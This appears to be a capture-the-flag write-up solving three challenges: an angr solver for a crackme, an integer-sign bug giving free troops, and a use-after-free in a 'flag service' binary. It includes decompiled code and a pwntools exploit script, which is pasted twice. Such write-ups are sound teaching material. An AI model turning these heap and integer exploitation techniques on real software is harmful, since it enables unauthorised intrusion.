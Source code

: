 ## Table of Contents
- [rev/easy-crackme](#reveasy-crackme)
- [pwn/orcwars](#pwnorcwars)
- [pwn/flag-service](#pwnflag-service)

## Rev/Easy-Crackme

![image](https://github.com/user-attachments/assets/0bb9c9fc-0c5f-4733-82f8-96ef33e8e61a)

Looking at the decompilation in Ghidra, we can just reassemble the flag from local_78 to local_4f but I decided to use angr to solve it.

```py
import angr
import claripy

FLAG_LEN = 42# Provide flag length
STDIN_FD = 0
base_addr = 0x00100000

proj = angr.Project("./easy_crackme", main_opts={'base_addr': base_addr})

flag_chars = [claripy.BVS(f"flag_{i}", 8) for i in range(FLAG_LEN)]                                               

flag = claripy.Concat( *flag_chars + [claripy.BVV(b'\n')])  # so that stdin works by adding \n to the end

state = proj.factory.entry_state(stdin=flag)

for c in flag_chars:					# make sure only printable characters
	state.solver.add(c >= ord('!'))
	state.solver.add(c <= ord('~'))

my_simgr = proj.factory.simgr(state)
find_addr = 0x00101435
avoid_addr = 0x0010145a 
my_simgr.explore(find=find_addr, avoid=avoid_addr)

if (len(my_simgr.found) > 0): # If a found state exists
	for found in my_simgr.found:
		print(found.posix.dumps(STDIN_FD)) # Print out the input
```

![image](https://github.com/user-attachments/assets/dd8c6a01-e80e-4f25-ab30-54c1e2fad345)

## Pwn/Orcwars

![image](https://github.com/user-attachments/assets/21264960-b2c2-461c-91eb-f2ebbe3cfa66)

We are presented with a menu based game where we need to get more troops than the enemy

![image](https://github.com/user-attachments/assets/f8699ce3-687a-4789-bd29-237626d15822)

Our total troops must be at least 0x22a to get the flag.

![image](https://github.com/user-attachments/assets/6b8eeebf-0b8d-492b-9987-9bd50448e129)

The problem lies in the line `if ((int)local_34 < (int)(uVar5 * 100)) {`. The variable uVar5 is declared as an unsigned integer but is being casted to an integer. Hence, we can give a large number of mercenaries. After multiplying by 100, it should result in a negative number due to how integer works.

![image](https://github.com/user-attachments/assets/8903b488-c489-436b-84a8-cd229f4b0bd8)

Enter 1.1 billion

![image](https://github.com/user-attachments/assets/67e7ef6a-00e7-436b-b3aa-f8d4b575d062)

Fake flag because the remote server is not active anymore, so I just ran this locally.

## Pwn/Flag-service

![image](https://github.com/user-attachments/assets/f717f137-9dee-48e0-929d-40b98517fa8a)

Another menu type challenge.

<details>
<summary>Decompiled Code</summary>

```c
    switch(uVar3) {
    case 0:
      puts("not a valid input\n");
      break;
    case 1:
      puts("enter your name :");
      if (local_20 != (undefined8 *)0x0) {
        free(local_20);
      }
      local_20 = (undefined8 *)malloc(0x10);
      puVar4 = (undefined8 *)fgets((char *)local_20,0x10,stdin);
      if (puVar4 == local_20) {
        sVar5 = strlen((char *)local_20);
        *(undefined *)((long)local_20 + (sVar5 - 1)) = 0;
      }
      else {
        puts("error with name !");
        *local_20 = 0x6e776f6e6b6e75;
      }
      break;
    case 2:
      puts("how many flags do you want ? \n(100$ per flag, max 9999 flags)");
      nbflag = get_int_input(1,9999);
      if (!deleted) {
        free(order);
      }
      order = (uint *)malloc(8);
      order[1] = nbflag;
      *order = nbflag * 100;
      printf("you want %d flags, which will cost %d$\n",(ulong)nbflag,(ulong)(nbflag * 100));
      deleted = false;
      fflush(stdin);
      break;
    case 3:
      if (deleted) {
        puts("you don\'t have any order to delete");
      }
      else {
        order[1] = 0;
        *order = 999;
        free(order);
        deleted = true;
        puts("you deleted your order !");
      }
      break;
    case 4:
      if (((int)*order < 0) || ((int)money < (int)*order)) {
        puts("you don\'t have enough money to buy those flags !");
      }
      else {
        money = money - *order;
        flags = order[1];
        puts("you successfully bought the flag !");
        printf("you now have %d flags\n",(ulong)flags);
      }
      if (0 < (int)flags) {
        print_flag();
        bVar2 = false;
      }
      break;
    case 5:
      puts("Bye !");
      bVar2 = false;
      break;
```

</details>

There is a Use-After-Free (UAF) vulnerability in option 3 when deleting an order. After freeing the chunk, the order variable is not set to NULL so the pointer to the freed chunk is still able to be used. Another thing to keep in mind is that malloc(0x8) and malloc(0x10) will return the same sized chunk because the minimum size for a heap chunk is 0x10 bytes (excluding metadata). Hence, the steps of our attack will be as follows

- Create an order chunk
- Delete that order chunk
- Allocate the name chunk, the contents of this chunk will reflect your order chunk. Hence, just make the price of the flag to become $1
- Profit

<details>
<summary>Solve Script</summary>

```py
#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()#!/usr/bin/python
from pwn import *
import warnings
import time

warnings.filterwarnings("ignore",category=BytesWarning)

exe = context.binary = ELF('./flag_service')
libc = exe.libc

host = "flag-service.warzone-challenges.com"
port = 1339

gdb_script = '''

'''

r = lambda x: p.recv(x)
rl = lambda: p.recvline(keepends=False)
ru = lambda x: p.recvuntil(x, drop=True)
cl = lambda: p.clean(timeout=1)
s = lambda x: p.send(x)
sa = lambda x, y: p.sendafter(x, y)
sl = lambda x: p.sendline(x)
sla = lambda x, y: p.sendlineafter(x, y)
ia = lambda: p.interactive()
li = lambda s: log.info(s)
ls = lambda s: log.success(s)

def debug():
  gdb.attach(p)
  p.interactive()

p = exe.process()
# p = remote(host,port)
#p = gdb.debug('./', gdbscript = gdb_script)

sla(b"exit\n", "2")
sl("1")
sla(b"exit\n", "3")
sla(b"exit\n", "1")
sl(p32(1) + p32(1))
sla(b"exit\n", "4")

p.interactive()
```

</details>
